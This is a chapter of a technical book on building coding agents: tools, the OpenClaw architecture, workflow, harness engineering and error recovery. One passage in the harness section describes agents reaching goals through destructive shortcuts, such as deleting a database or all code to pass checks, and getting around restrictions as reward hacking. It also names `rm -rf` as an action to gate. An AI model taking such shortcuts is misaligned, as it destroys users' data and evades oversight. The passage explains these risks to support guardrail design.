

# Coding Agent and Code Generation

The previous chapters delved into context engineering (Chapters 2 and 3) and tool design (Chapter 4). This chapter puts those building blocks together to answer a core question: **What does the architecture of a general-purpose Agent capable of handling arbitrary tasks look like?**

The answer is: **A general-purpose Agent targeting open-ended tasks** has at its core a **Coding Agent** (an Agent that can autonomously write, modify, and execute code) plus a **file system** — the workspace where the Agent stores code, data, memory, and intermediate results, much as a programmer manages projects with folders on a computer. From Manus to OpenClaw, successful open-ended general-purpose Agents all follow this paradigm.

Why can code generation carry this weight? Because it is not merely a tool, but a **meta-capability** — the ability to create new tools and capabilities dynamically at runtime. The latter half of this chapter develops this concept in full, along with the six directions in which it applies.

Code serves an Agent on two levels. As a medium for **thinking**, code enforces rigor — "age greater than 18 and identity verified" admits multiple readings in natural language, but written as code it admits exactly one. As a medium for **expression**, code that runs is its own proof of logical consistency, and its execution result provides an objective standard of correctness.

This chapter begins with the basic capabilities of a Coding Agent and the general-purpose Agent architecture (OpenClaw), then demonstrates the application of code generation in various scenarios — from mathematical reasoning and content creation to system-level meta-capabilities.

## Coding Agent

### Coding as a Foundational Agent Capability

**Code generation is not the exclusive domain of a few specialized Agents, but a foundational capability that every general-purpose Agent should possess.** With today's SOTA models, giving an Agent basic coding ability requires no elaborate architecture.

Consider a typical task: "Organize all leftover TODO comments in the repository, classify them by priority, and generate issues." Getting it done requires browsing the directory structure (ls/glob), reading code (read), modifying files (edit/write), running commands (bash), and searching for patterns (grep/search). These five categories of operations cover almost every core action of a Coding Agent, and they are where the seven tools below come from. Strictly speaking, the five categories map naturally onto six tools; the seventh, the Code Interpreter, covers "execute code / compute" operations and in some implementations is simply folded into Bash — the seven tools are a normalized reference set, not a strict one-to-one mapping onto the five categories.

A basic Coding Agent only needs to be equipped with the following seven core tools:

1. **Code Interpreter**: Provides an isolated sandbox (a secure runtime separated from the host system) in which Python code can run safely without execution errors affecting the host
2. **Bash Shell**: Executes commands in a terminal, such as running test cases or processing specially formatted files
3. **Read File Tool**: Reads code, configuration, documentation, logs, etc.
4. **Write File Tool**: Creates new files or completely overwrites existing files
5. **Edit File Tool**: Performs partial modifications to existing files, a core operation for code maintenance and iteration
6. **Search File Name Tool (Glob)**: Quickly locates target files in the file system via pattern matching, e.g., using `**/*.py` to find all Python files in a project
7. **Search File Content Tool (Grep)**: Searches for specific text patterns within file content, e.g., finding all lines of code that call a certain function

These seven tools constitute a complete yet minimal toolbox that almost any Agent system can integrate at low cost. In implementation, they can all be exposed as standardized tool services via the MCP protocol introduced in Chapter 4. Note that this toolset is a basic configuration specific to Coding Agents, distinct from the five general tool categories (perception/execution/collaboration/event-triggering/user communication) classified by invocation direction and functional role in Chapter 4 — the seven core tools mainly cover the perception and execution categories. What about collaboration, event triggering, and user communication? In a Coding Agent these are typically the framework's job, not the tool layer's — sub-agent delegation, for instance, is handled by the framework's orchestration logic rather than by dedicated collaboration tools.

To see how the seven tools work together, take the simplest of tasks. Suppose the user says, "Help me compile a list of all TODO comments in the project":

```text
Agent (thinking): Need to find all code lines containing TODO.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (thinking): Found 3 TODOs, compile them into a list and write to a file.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Done. Found 3 TODO items, the list is saved in TODO_LIST.md.
```

The entire process used only two tools: Grep (search content) and Write (write file). If the task were more complex — like "count the number of TODOs per module and draw a bar chart" — the Agent would also use the Code Interpreter to execute Python code for statistics and plotting. The seven tools are simple individually; in combination they cover a remarkable range of tasks.

A reader might ask: why seven tools and not six? In fact, a single Bash tool would be enough — OpenAI Codex provides nothing but Bash Shell and performs every file read, write, and search operation through that one tool. Other Agents nevertheless keep dedicated file-reading and file-writing tools. The seven tools in this book are broken out separately to make the basic capabilities a Coding Agent needs easy to grasp.

Why should every general-purpose Agent have coding ability? Because code generation is not just about writing programs — it is a general-purpose way of solving problems. Faced with a math problem, the Agent can write code and hand it to a solver for an exact answer; faced with a business rule to pin down, code is far more precise than any natural-language description; missing a tool, it can write one on the spot; when a data format changes, it can generate new parsing logic. Later sections take up each of these scenarios in turn. An Agent with basic coding ability — even one equipped with nothing but the seven simple tools above — can expand its capabilities whenever a new need arises.

### Case Study: From Manus to OpenClaw — The Coding Core of General-Purpose Agents

General-purpose Agent products such as Manus and OpenClaw combine three major capabilities — Deep Research, Computer Use, and Coding — in a single system. Why, then, did the beginning of this chapter call the Coding Agent the core rather than either of the other two?

Because almost all efficient content generation ultimately boils down to code. PowerPoint presentations and Word documents are essentially code in the OOXML format (Office Open XML, Microsoft's open standard for office documents). PDF reports can be generated through Markdown, HTML, or LaTeX; Python scripts can perform data analysis and visualization; even successful browser-operation sequences from GUI work can be captured as reusable code (see Chapter 9). Deep Research search and information synthesis can be implemented through code-driven web requests and parsing. Computer Use is more versatile, but direct code or API calls are generally cheaper, faster, and more reliable for equivalent operations. Code generation is the most efficient, lowest-cost, and most reusable capability foundation.


Let's understand this architecture through a concrete execution flow. Suppose the user requests, "Help me analyze last quarter's sales data and create a summary report":

1. **Read Memory**: The Agent reads `MEMORY.md` and discovers the user prefers PDF format reports and the data source is Google Sheets
2. **Call Tools**: Obtains usage instructions for the Google Sheets API via the web search module, downloads data via code execution
3. **Write Code**: Generates a data analysis script in Python (pandas aggregation, matplotlib visualization)
4. **Generate Artifacts**: Writes the analysis results to `report.pdf`, charts to the `charts/` directory
5. **Update Memory**: Records in `MEMORY.md` that "User's sales data is in Google Sheets, ID: xxx," so it doesn't need to ask next time

Throughout the process, the file system is the hub of information flow — memory is read from files, artifacts are written to files, and experience is also saved as files.

**The File System as the Agent's Central Hub.** In OpenClaw's design, the file system is far more than data storage — it is the central hub for the Agent's memory, knowledge, and capabilities. The Agent's long-term memory is stored in `MEMORY.md` (high-level facts and user preferences) and Markdown logs archived by date. Choosing Markdown over a vector database may seem counterintuitive, but it is extremely effective: users can directly open files to read and modify the Agent's memory (if the Agent misremembers something, just delete that line), Markdown naturally preserves chronological order to avoid temporal confusion in semantic retrieval, and it supports version control and rollback via Git.

More critically, because the Agent can write files, it has the technical means to modify its own external artifacts. When an Agent performs a task for the first time and discovers key information it did not previously know—for example, when calling a particular bank, it learns that the bank requires the branch address for identity verification—it can first write the discovery into a record. Determining when such a record is sufficient to become reliable knowledge, an instruction, or a program still requires additional trajectories and outcome validation. This is the problem of continuous evolution discussed in Chapter 9.

**Applicability Boundary: Which Agents Have Coding as Their Core Architecture.** The conclusion that "the Coding Agent is the core of a general-purpose Agent" mainly applies to **general-purpose Agents targeting open-ended tasks** — scenarios like deep research, content generation, and data processing, where task boundaries are uncertain and artifact forms are diverse. In these scenarios, it is impossible to enumerate all needed tools in advance; code generation, as a meta-capability, provides the most economical path for dynamically expanding capability boundaries, making it the core of the architecture. By contrast, vertical-domain customer-service Agents operate in relatively closed task spaces, with core architectures built around fixed business processes, domain tools, and dialogue strategies; there, code is a tool in the toolbox rather than the architectural hub. However, even in the latter, coding is an important foundational capability: precise calculation, data processing, and rule verification all depend on it.

Next, we discuss two designs — the "always available" interaction mode and the security architecture — which may seem unrelated to the Coding Agent topic at first glance. However, they directly determine how the Agent manages the code execution environment and file system state, which are core concerns of a Coding Agent. (Readers who want to first understand how a Coding Agent works step by step can skip ahead to the section "The Overall Workflow of a Coding Agent" and return here for the interaction and security design.)

OpenClaw adopts a **Sessionless** design: users do not need to install or log in to an app, or open one before each interaction; the Agent is always online, and users can send a message at any time via the messaging platform they already use to get a response — this interaction paradigm and its underlying Gateway message routing and event-driven architecture have been discussed in detail in the user communication tool section of Chapter 6 and will not be repeated here. What is worth emphasizing is the prerequisite for this paradigm to work: large models have matured enough to serve as a new kind of "intelligent foundation" — similar to how a traditional operating system abstracts hardware and provides a unified interface for upper-layer applications, large models abstract the complexity of language understanding, reasoning, and planning, providing a unified intelligent abstraction for upper-layer Agents. It is precisely because of this foundation that the "always online + instant response" paradigm can be engineered at low cost.

For a Coding Agent, the central engineering challenge of sessionless operation is **preserving the code execution environment and file system state across messages**. Two user messages might be minutes apart or days apart, and the Agent's work relies on a large amount of implicit state: packages installed in the sandbox, the terminal session's working directory and environment variables, background development servers, and partially written files. OpenClaw's approach is to manage state in two layers. **File system state is inherently persistent** — the workspace directory is mounted on persistent storage outside the sandbox, so code, data, and intermediate artifacts survive across messages and sandbox restarts; this is another meaning of "the file system as the Agent's central hub." **Process state is kept alive or rebuilt on demand** — the sandbox and its terminal session remain running during active periods to avoid cold-starting, re-entering the working directory, and re-activating the virtual environment for every message; they are destroyed after an idle timeout to reclaim resources, but before destruction, serializable environment state (working directory, environment variables, background task list) is recorded in workspace files, and the Agent rebuilds from these records upon the next wake-up. The persistent terminal session discussed in the section "State Persistence in the Command Execution Environment" later in this chapter is the counterpart of this mechanism within a single task; Sessionless extends the same problem to a time scale spanning messages and days.

Sessionless is not maintenance-free — every user message requires **reloading the complete trajectory and working state**, which places a premium on efficient state serialization and effective trajectory-compression strategies; the design principles of trajectory compression were covered in the "Context Compression Strategies" section of Chapter 2, while this chapter focuses on the engineering trade-offs the Sessionless architecture imposes.

### The Overall Workflow of a Coding Agent


**Project Documentation.**

A Coding Agent's work begins with a systematic understanding of the project. When an Agent first encounters a code repository, its first job is not to start modifying code but to build a cognitive framework for the whole project—just as a new engineer doesn't push code on day one, but starts by learning the lay of the land. The Agent begins by checking whether the project has documentation—a README, architecture design documents, developer guides.

If key documents are missing, the Agent should not start working blindly. It should systematically inspect the codebase, identify the main modules, core abstractions, and component dependencies, and draft an architecture overview, directory guide, and instructions for running tests. These documents serve as a blueprint for the Agent's subsequent work and provide an entry point for other developers. This embodies a key principle: the externalization of knowledge is a prerequisite for efficient collaboration.

Project documentation now has a form specific to Agents: **Project Instruction Files**. Files like CLAUDE.md, AGENTS.md, .cursorrules have become de facto industry standards—they are automatically injected into the context at the start of every session, acting as project-level system prompts. Unlike READMEs intended for human readers, instruction files carry behavior conventions for Agents: build and test commands ("use `pnpm test` instead of `npm test`"), code style ("avoid the `any` type"), and clear restricted zones ("do not modify the `migrations/` directory"). This is the same idea as OpenClaw's `SOUL.md` (defining the Agent's identity and behavior rules) and `MEMORY.md` (accumulating cross-session experience), applied at different levels: SOUL.md defines "who the Agent is," while project instruction files define "how to work in this project." From the perspective of context engineering in Chapter 2, instruction files are also the most economical stable prefix—their content doesn't change with the task, making them naturally KV Cache-friendly; they are also the most direct implementation of the principle that "knowledge must exist within the codebase itself."

The principle of knowledge externalization also has an interesting corollary: **Teams that are friendly to remote work are often also friendly to AI Agents.** Remote teams are forced to rely on asynchronous communication and documentation—decisions are recorded in documents, context lives in issue and PR descriptions, tribal knowledge accumulates in developer guides rather than passing by word of mouth at the next desk or on a conference-room whiteboard. This is exactly the form of knowledge Agents can consume: an Agent cannot read a verbal agreement, but it can read a design document. Conversely, a team that runs on "just ask the person sitting next to me" imposes the same steep onboarding cost on an Agent as on a new remote hire. A simple proxy for a team's "AI-readiness": can a remote newcomer work independently with nothing but the code repository and its documentation?

**Task Understanding and Requirements Clarification.**

For simple requirements with clear boundaries and limited impact—such as fixing a known bug or adjusting a function's parameters—the Agent can proceed directly to the implementation phase. However, most tasks in software development are not this simple.

For complex requirements, the Agent must be more cautious and methodical. Complexity can arise from multiple dimensions: the ambiguity of the requirement itself (the user knows what they want but cannot express it precisely), the diversity of implementation paths (multiple technical solutions with their own trade-offs), or the breadth of impact (requiring modifications to multiple modules, potentially breaking existing functionality). The Agent should clarify boundaries through exploratory research and proactively engage in dialogue with the user when necessary. For example, when a user asks to "optimize system performance," the Agent first needs to determine the specific goal (reducing response time, decreasing memory usage, or increasing throughput), which trade-offs are acceptable (for example, whether increased code complexity is acceptable), and where the current bottleneck lies. Starting to code while the requirements are still vague often leads to significant rework.

**Writing a Design Document.**

A design document is a bridge that translates abstract requirements into a concrete implementation plan. It should answer four core questions: which modules should be modified and why, which approach should be chosen and what trade-offs it entails, which new dependencies are needed, and what impact the changes are expected to have on the system. Writing a design document is itself deep thinking—it forces the Agent to conceptually validate the feasibility of a solution before investing heavily in coding. More importantly, the design document provides an efficient intervention point for humans—reviewing a concise design document is much easier than reviewing hundreds of lines of code. After completing the design document, the Agent should submit it for user review and wait for approval before proceeding.

**Code Implementation and Testing.**

After obtaining design approval, the Agent follows the project's code conventions for implementation, reuses existing abstractions and tools, and performs moderate refactoring when necessary to maintain the health of the codebase.

After implementation, the Agent immediately enters a test-driven quality assurance phase—writing test cases for the new or modified functionality, covering normal paths, boundary conditions, and error scenarios. After writing the tests, the Agent executes the test suite. If tests fail, the Agent should not simply report the failure to the user but should analyze the cause, locate the problem, and modify the code until all tests pass. This "test-fix" loop may require several iterations, and it is this self-correcting ability that elevates a Coding Agent from a code generator to a reliable engineering assistant. Conversely, the most common way a Coding Agent slacks off is to skip this stage entirely—writing the code and reporting "task complete" without ever running the tests. Defining "tests pass," rather than "code written," as the completion criterion is precisely Loop Engineering's principle of letting verification decide when it is safe to stop, applied to coding.

Even if all tests pass, the Agent's work is not done. The next phase is code review: the Agent critically examines its own generated code. Is it readable and adequately commented? Are there lurking performance problems or security vulnerabilities? Does it follow the project's code style and best practices? This self-review can be done by reading the code, running lint tools, or calling a dedicated code review sub-agent. If the review finds issues, the Agent should return to the modification phase and fix them, rather than delivering flawed code to the user.

**Documentation Synchronization and Delivery.**

If the code changes involve architectural changes—such as introducing a new module, changing dependencies between modules, or altering the semantics of core abstractions—the Agent needs to update the architecture documentation accordingly. Outdated documentation is worse than no documentation because it misleads future developers. By automatically updating documentation after every significant change, the Agent helps maintain the integrity and timeliness of the project's knowledge base.

This workflow embodies the core principles of software engineering: planning precedes action, verification runs throughout, and documentation evolves together with the code.

Note that the process described above is a **recommended engineering workflow**. Real-world Coding Agents (such as Claude Code and Codex) trim it as needed: a simple bug-fix task skips generating a design document, while only complex, wide-reaching tasks go through every stage in full.

Different models trim this workflow in different ways. Some Coding models read the repository structure, implementation, callers, and tests broadly before the first edit. Others inspect only the few files most likely to matter, make an early patch, and treat compiler and test feedback as part of the investigation. This threshold for deciding when to stop gathering information and start acting can continue to follow the model after the harness changes, and can change when the model is swapped inside the same harness. It is therefore first and foremost a **learned model behavior**, not merely the interface style of a Coding product. Prompts, tools, and budgets in the harness can still amplify or suppress it, but need not be its source. Chapter 7 measures this difference in a fixed harness; Chapter 8 then explains how post-training may write such a policy into the parameters.

### Harness Engineering in Practice for Coding Agents

Chapter 1 introduced the concept of Harness Engineering and the formula **Agent = Model + Harness**. The Harness here includes the context and tools from the core formula, as well as constraints, verification, and correction mechanisms—these five elements together constitute the Harness defined in Chapter 1. Coding Agents are perhaps the domain where Harness Engineering pays off most—code writing is the **most verifiable** of all Agent tasks, and its constraints, verification, and correction can all lean on existing infrastructure. This section focuses on concrete practice in the Coding Agent scenario.

Whether a system runs stably often depends less on the power of the model and more on the robustness of the infrastructure built around the Agent. Chapter 1 divides the Harness into two layers—**Context and Tools** (enabling the Agent to act) and **Constraints, Verification, and Correction** (helping the Agent act safely and correctly). In the Coding Agent scenario, these translate into specific engineering components:

- **Acceptance Baseline**: What constitutes "done"—test suites, CI pipeline (Continuous Integration pipeline, a series of checks automatically run after code submission), code review standards
- **Execution Boundary**: What the Agent can and cannot touch—module boundaries, dependency rules, permission controls
- **Feedback Signals**: Automated correctness judgments—Linter (code style checking tool that can automatically find formatting errors and potential issues) output, test results, type checking errors
- **Rollback Mechanism**: How to recover if something goes wrong—Git version control, sandbox isolation, snapshot rollback

**Why Coding Agents Are Particularly Suitable for Harness Engineering.**

Two dimensions — how clear the goal is, and how automated the verification is — divide tasks into four states. A clear goal with automatically verifiable results is the territory where Agents thrive; a clear goal whose acceptance still depends on human eyes caps throughput at the speed of human review; automated feedback with a vague goal lets the system run efficiently in the wrong direction; lacking both, the Agent is of little use. Table 5-1 shows these four states. The goal of the Harness is to push as many tasks as possible into the "clear goal + automated verification" quadrant.

Table 5-1 Four Quadrants of Task Clarity and Verification Automation

| | Results can be automatically verified | Results require manual verification |
|---------|--------------------------------------------|------------------------------------------|
| **Clear goal** | Sweet spot: fixing bugs with test cases | Throughput-limited: code refactoring requires manual review |
| **Vague goal** | Efficiently going off track: optimizing "code quality" with a linter | Hard to start: "make the UI look better" |

Code-writing tasks naturally occupy the "clear goal + automated verification" quadrant—test suites provide clear acceptance criteria, linters and type checkers offer instant automated verification, and Git provides perfect version control and rollback capabilities. This explains why Coding Agents are currently the most mature among all Agent types: not because code generation models are particularly powerful, but because decades of software engineering infrastructure naturally constitute a robust Harness.

**Industry Practice.**

Three case studies of Harness practice confirm the above principles:

- **Large-scale code migration case** (from a large tech company's publicly shared large-scale code migration practice): The key was not the model's strength, but the Harness doing three things right—knowledge must exist within the codebase itself (what the Agent cannot see does not exist), constraints are encoded into linters and CI rather than written in documentation, and verification and correction are fully automated end-to-end.
- **LangChain**: Significantly improved benchmark task performance solely by optimizing the Harness (system prompts, tool middleware, self-verification loops). Particularly noteworthy is the methodology of "using an Agent to analyze failure trajectories to improve the Harness," shifting Harness engineering from experience-driven to data-driven.
- **Anthropic**: Splits long tasks into two roles—an initialization Agent responsible for breaking down large tasks into a task list, and an execution Agent responsible for progressing step by step, leaving intermediate results (such as completed code files and updated task lists) for the next round to continue using. This division of labor solves the problem of long-running Agents "trying to do too much at once" or "claiming completion prematurely."

**From Coding Agent to General Harness Design Principles.**

The Harness practices of Coding Agents provide transferable design principles for all Agent systems:

1. **Constraints over guidance**: Rules that can be enforced with code should be encoded there, not merely suggested in documentation. The value of linter rules, type constraints, and CI checks far exceeds "please follow..." guidance in system prompts—the former means "cannot be done," the latter is merely "advised against."
2. **Automate verification**: Manual review is an unscalable bottleneck. Investment in test suites, code quality checks, and behavior monitoring yields far higher returns than adding more human effort.
3. **Feedback should be as fast and structured as possible**: The more detailed the error message and the closer it is to the moment of error, the more efficiently the Agent can correct itself. The Agent status bar techniques from Chapter 2 (detailed error messages, tool call counters) embody this principle.
4. **Rollback must be reliable**: Agents can only experiment boldly when operating within a safety net. Git branches, sandbox environments, and snapshot mechanisms ensure any error is reversible.

**A deeper purpose of constraints: preventing process errors.** The acceptance baseline governs whether the outcome is right; the execution boundary governs the **process**—even a correct outcome does not justify a wrong method. Deleting and rebuilding the database to "fix" a database fault does repair it, but the data is gone; deleting all the code to fix a compilation error does make compilation pass, but the implementation is gone. Such destructive shortcuts always exist: even when restrictions are written into the final evaluation metrics, Agents often find ways around them—this is the everyday form of reward hacking (Chapter 8) in Agent tasks. A production Harness therefore places dedicated checks and approvals on dangerous actions like `rm -rf`, deleting production data, or overwriting an unread file (semantic parsing in this chapter's security section, Sidecar review in Chapter 4), constraining **actions**, not merely outcomes. RLVP in Chapter 8 (Reinforcement Learning with Verified Penalty—"reward the outcome, penalize the path") answers the same question from the training side: beyond the final outcome reward, it penalizes verifiable violations along the path, internalizing "no destructive means" as the model's engineering common sense. For an existing model, Harness guardrails are external constraints; for a trainable model, process penalties internalize the same constraints. The goal is the same.

**Tool Orchestration: Fault Boundary Control**. Mature Coding Agents support parallel tool calls. The unique problem from the Harness perspective is **how faults propagate**: when one tool fails, which calls should be aborted and which should continue? The principle is that faults propagate only within the same batch of parallel calls, not up to the parent operation. When reading three files in parallel, for example, a missing file should cause only that call to fail; it should neither cancel the other two nor abort the entire task. This fine-grained fault boundary control avoids the fragile pattern of "one command failure aborting the entire task." The specific mechanisms for parallel calls, streaming parsing, and cascading aborts are detailed in the "Implementation Tips" section of this chapter.

### Failure and Error Recovery

The previous section presented the principles and components of Harness engineering; this section dives into the piece that most differentiates engineering maturity—**failure and error recovery**. The ablation experiment in Chapter 1 showed how severe the problem can be: missing a single piece of tool-result feedback is enough to trap an Agent in an infinite loop—and real production environments see far more diverse failures than any experiment. This section systematically answers three questions: What failures does a production Harness encounter? How are they detected and recovered from? And when must the system terminate?[^ch5-3]

[^ch5-3]: The failure taxonomy and mechanism analysis in this section are based on research into the source code of production-grade Agent implementations such as Claude Code. Specific implementations evolve rapidly across versions; this section distills only the stable engineering principles.

**A taxonomy of failures: four layers.** The first step toward a systematic response is classification. Failures fall into four layers according to where they occur:

- **API layer**: rate limiting (HTTP 429), service overload, request timeouts, connection drops, and output truncated at the token limit. These failures are unrelated to the task itself—they are infrastructure noise.
- **Tool layer**: hallucinated calls (invoking a tool that does not exist), malformed arguments (violating the tool's input contract), execution exceptions, and the most dangerous kind—a tool repeatedly returning the same error while the model retries it unchanged.
- **Context layer**: context window overflow, compaction failure, and corrupted trajectory structure (such as a tool call missing its paired result message).
- **Control-flow layer**: infinite loops (repeating the same operation with no progress) and death spirals (recovery logic triggered by an error itself calls the LLM, fails again, and cascades).

**Detection: classify first, then count.** When a failure occurs, the first question is not "Should we retry?" but "Would retrying help?" Retryable errors (rate limiting, overload, network jitter) deserve retries; non-retryable errors (invalid arguments, insufficient permissions, nonexistent tool) will produce the same result no matter how many times they are retried as-is—the input or strategy must change. A production Harness maintains a mapping from error types to recovery strategies, rather than a blanket "retry on error."

Beyond individual errors, detect **patterns**. First, repeated-call fingerprints: hash the "tool name + arguments" pair; the same fingerprint recurring is a clear signal of a no-progress loop—the Agent in Chapter 1's ablation experiment calling the same tool over and over was exactly this pattern. Second, consecutive-failure counters: each recovery path keeps its own counter, providing the basis for the circuit breakers discussed later.

A third class of failures does not manifest as errors at all and requires dedicated **liveness and integrity monitoring**. The most dangerous failure mode of a streaming connection is not a drop (which immediately produces an error) but a silent stall—the connection remains established, but the data flow stops, like a connected pipe that yields no water. SDK timeouts often cover only the initial connection, not the transfer process, so a production Agent needs an independent idle watchdog (a watchdog timer—if no new output arrives within a set interval, the connection is judged stalled) that kills the hung stream and triggers a retry upon timeout. This generalizes into a principle: **every long-lived connection needs a liveness signal, not just a connection timeout**. Integrity monitoring targets trajectory structure: when a tool call is found to lack its paired result message, the system repairs the pairing before injecting the context, rather than throwing the structural anomaly at the model or the user. One notable engineering detail: some production Agents run both a production mode and a training-data collection mode—production mode may patch missing messages with placeholders, while training mode refuses to repair, because synthetic placeholders would pollute the training data. This "lenient in production, strict in training" dual standard reflects the deep coupling between the Harness and model training.

**Recovery: escalate through increasingly visible stages.** Recovery measures are graded by how visible they are to the user; if a lower level solves the problem, do not escalate:

1. **Silent retry**. The default action for retryable errors. Two details determine whether retries succeed: first, use exponential backoff with random jitter to prevent fleets of clients from retrying in lockstep and causing secondary congestion, while honoring the server's suggested wait duration; second, distinguish foreground from background calls—a failed main-loop request is retried, but auxiliary background calls (title generation, input suggestions) are dropped on failure, lest background retries crowd out the main loop's quota and create "retry amplification."
2. **Degrade and continue**. When retries fail, change the request itself and try again. Take output truncation (generation cut off by the length limit): first silently resend with a raised output cap; if that is still not enough, append a meta-instruction at the end of the message so the model continues generation from the breakpoint. When the primary model is persistently overloaded, fall back to another model, first stripping proprietary formatting blocks from the previous model's history so that the new model can parse it; when a high-cost mode is rate-limited, temporarily fall back to the standard mode.
3. **Surface to the user**. Only after all automatic means are exhausted is the error presented—together with the recovery actions already attempted.

Tool-layer errors take a different path: **do not terminate the session; turn the error into the model's input**. A hallucinated call receives a structured "no such tool" error result; a validation failure receives an error annotated with hints about the input contract; malformed arguments (a string emitted where an object was expected) are programmatically repaired before execution. These errors enter the context as ordinary tool results, and the model corrects itself on the next turn—an application of the earlier principle that "the more structured the feedback, the better": the more specific the error fed back, the higher the model's self-correction rate.

The core principle of this section is: **the unit of error handling is not the single request, but the entire recovery loop**. Until recovery is confirmed impossible, intermediate errors should not be exposed to consumers—whether the user or downstream systems subscribed to events: withhold error messages during recovery; if recovery succeeds, consumers never notice; only when everything fails are the withheld errors released. This is the engineering realization of Chapter 1's correction principle—"do not expose intermediate states until recovery is confirmed impossible."

**Termination: every recovery path needs a ceiling.** Recovery mechanisms themselves can fail, so every recovery path must have an explicit retry ceiling: context compaction gives up after several consecutive failures; the permission classifier falls back to asking a human after repeated failures; output continuation is attempted at most a fixed number of times. Where do the thresholds come from? Production data, not guesswork. Take Claude Code's compaction circuit breaker: the "3 consecutive failures" threshold comes from real session statistics—one session once failed over three thousand times in a row on this very recovery path, and such futile retries alone wasted about 250,000 API calls per day worldwide; more than a thousand sessions saw streaks of 50+ consecutive failures. Three is the empirical inflection point between "the vast majority of failures recover before this" and "further retries are essentially hopeless."

More insidious than a single-point breaker is the **death spiral**: logic triggered on the error path itself calls the LLM, fails again, and cascades. One real cascade: the Agent stops on a context-overflow error, which fires a stop hook (cleanup logic that runs automatically when the Agent ends) that "commits code on exit," the hook calls the LLM to write a commit message, context overflows again, and the hook fires once more. Defense comes in two parts: disable all model-invoking side effects on the error path (better to lose an auxiliary feature once, such as automatic memory extraction), and use a recursion-depth counter to detect and break any residual cascade. Finally, above all automatic mechanisms sit global termination and escalation conditions: a maximum number of turns, a session budget cap, and escalation to human intervention when consecutive failures exceed their threshold.

### Implementation Tips for Coding Agents

The workflow described above is the ideal. Making it run in practice takes a handful of concrete implementation techniques—ways to raise response speed and cut context consumption without degrading the quality of thought. They are the general Agent techniques of Chapters 2 and 4, applied to the programming domain.

**Parallel Tool Calls, Streaming Execution, and Cascading Abort.**

Traditional Agent implementations often work serially: generate a tool call, execute it, get the result, then decide the next step. This strict queuing wastes a great deal of time.

Modern Coding Agents should fully leverage streaming responses: Chapter 2 introduced this mechanism when discussing model output order—once the parameters of the first tool call are fully generated and pass validation, execution can begin immediately, without waiting for the model to generate subsequent tool calls. For example, if the model needs to output three tool calls in one inference—search code, check configuration files, and read logs—the first call can start executing as soon as its parameters are complete and validated, overlapping with the generation of the other two. Independent calls can also be executed in parallel rather than queued. This overlapping execution significantly reduces end-to-end latency, making the Agent's responses more agile.

The flip side of parallel execution is fault handling. Each tool definition should declare whether it supports concurrent execution (default is no, fail-safe). When a call fails, a cascading abort mechanism terminates other calls started in the same batch that depend on its result, but does not affect independent calls or the parent operation—this is a concrete implementation of the "fault boundary control" principle from the Harness engineering section.

**Fine-Grained Context Management.**

The fundamental challenge for Coding Agents is that codebases are usually large, but the model's context window is limited. Even if advanced models claim to support millions of tokens, stuffing the entire codebase into the context is neither economical nor necessary. Intelligent context management needs to operate at multiple levels.

At the file reading level, the Agent should not always read the entire file. For large files, the tool should support reading specific line ranges—for example, only reading lines 100 to 150, rather than loading a file with thousands of lines. More importantly, when returning content, line numbers should be attached—each line of code is prefixed with its actual line number. This seemingly simple design brings great value: the model can precisely reference "line 42 of `src/main.py`," reducing ambiguity and making subsequent edit operations more reliable.

At the command execution level, handling terminal output also requires care. Compilation or testing can produce thousands of lines of output. If all of it is injected into the context, the budget is quickly exhausted. The long output truncation and persistence mechanism introduced in Chapter 4 is widely applied here: retain the first few lines of output (usually containing error context) and the last few lines (usually containing error summaries), replace the middle with a one-line placeholder, and note that the complete output has been saved to a temporary file for on-demand viewing.

**Dynamic Injection of Environment Information.**

This is a concentrated manifestation of the Agent status bar technique from Chapter 2 in Coding Agents. Unlike general Agents, Coding Agents are highly dependent on the state of the execution environment. Before each inference, the following key environment information should be injected at the end of the context in the form of an Agent status bar:

- **Current working directory**: ensures path references are correct
- **Git branch**: knows whether working on the main branch or a feature branch
- **Recent commit history**: understands the project's evolution
- **Overview of unstaged and staged changes**: knows what modifications have been made

This information should not be hardcoded into static system prompts—that would destroy KV Cache efficiency—but should be dynamically generated and injected as an appended Agent status bar. In this way, the Agent gains "environmental awareness," with each decision based on an accurate understanding of the current state, rather than outdated assumptions.

**State Persistence in the Command Execution Environment.**

When interacting with code, many operations depend on environment state: changing directories, activating virtual environments, setting environment variables, starting background services. If each command is executed in a fresh shell, all this state is lost—the Agent just used `cd` to navigate to the project directory, but the next command starts again in the shell's default directory, forcing it to repeat the same setup. Worse, the effects of some operations (like activating a Python virtual environment) are only valid within the current shell session and cannot be passed across sessions.

Therefore, a persistent terminal session should be maintained, created when the Agent starts and kept active throughout the entire interaction. Each command is executed in this shared terminal, preserving the working directory, environment variables, and session state. This design is more aligned with the work habits of human developers—we usually work in a long-running terminal window. Of course, the Agent should also retain the ability to start isolated terminals to support parallel tasks, but the persistent session should be the default mode.

